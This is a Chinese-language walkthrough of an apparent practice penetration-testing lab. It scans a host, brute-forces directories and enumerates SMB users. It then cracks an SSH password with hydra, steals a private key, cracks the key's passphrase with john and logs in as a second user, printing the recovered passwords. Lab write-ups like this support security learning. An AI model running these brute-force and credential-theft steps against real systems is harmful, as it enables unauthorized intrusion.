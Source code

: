 # 基础渗透测试

使用nmap进行扫描查看开启了什么服务

```
nmap -sV -T4 10.10.121.121
```

![image-20231130172423327](../图片/image-20231130172423327.png)

使用nmap扫描发现，开启了ssh，http，netbios-ssn ajp13服务

发现了http服务，使用目录扫描工具dirsearch

```
dirsearch -u  http://10.10.121.121 -t 10
```

![image-20231130174549582](../图片/image-20231130174549582.png)

也可以用gobuster进行目录扫描

```
gobuster dir -u http://10.10.143.178 -w 字典
```

![image-20231203163506492](../图片/image-20231203163506492.png)

扫描出web服务隐藏的目录：development

在目录下的文档找到了服务器开启了SMB服务（文件共享服务）并且版本为2.5.12

![image-20231203164036088](../图片/image-20231203164036088.png)

使用enum4linux找到用户名

```
enum4linux -a -o 10.10.143.178
```

![image-20231203172413224](../图片/image-20231203172413224.png)

找到用户信息：kay，jan

![image-20231203172327049](../图片/image-20231203172327049.png)

使用hydra进行爆破ssh

```
hydra -l jan -P /home/gary/文档/字典/pass_weak18000.txt -vV -o ssh.log -e ns 10.10.54.237 ssh
```

爆破出密码为：armando

![image-20231203230703073](../图片/image-20231203230703073.png)

使用ssh登陆到服务器

```
ssh 10.10.223.84 -l jan
```

在服务器上发现了id_rsa把它复制下来



使用ssh2john把id_rsa转为hash

```
ssh2john id_rsa > id_rsa.txt
```

使用john破解hash文件

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```

爆出来的密码为：beeswax

![image-20231206095508228](../图片/image-20231206095508228.png)

使用密钥加密码登录

```
chmod 755 id_rsa
ssh -i ./id_rsa kay@10.10.34.167
```

![image-20231206100218001](../图片/image-20231206100218001.png)

查看文档

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

![image-20231206100330373](../图片/image-20231206100330373.png)
